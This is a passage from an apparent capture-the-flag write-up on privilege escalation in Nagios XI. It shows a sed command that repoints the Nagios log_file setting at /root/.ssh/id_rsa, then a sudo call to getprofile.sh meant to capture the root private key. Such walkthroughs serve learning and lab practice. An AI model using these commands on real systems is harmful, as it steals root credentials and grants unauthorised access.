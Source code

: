 ```bash
ls -hal /usr/local/nagios/etc/nagios.cfg
```

![User permissions](/assets/img/Monitored/Monitored_13.png)

So first up lets check what this file contains before we modify it by using cat. Most of the file has been snipped for brevity. Here we can see that the original value of the log file is **/usr/local/nagios/var/nagios.log**

```
<snipped>
lock_file=/var/run/nagios.lock
log_archive_path=/usr/local/nagios/var/archives
log_external_commands=0
log_file=/usr/local/nagios/var/nagios.log
log_host_retries=1
log_initial_states=0

<snipped>
```

So knowing the format of the previous file path we can replace it using the following sed command. this command will then change the log file to the private key of the root user.

```bash
sed -i 's#/usr/local/nagios/var/nagios.log#/root/.ssh/id_rsa#g' /usr/local/nagios/etc/nagios.cfg
```

So next up we need to run the script with sudo like so:

```bash
sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 1
```
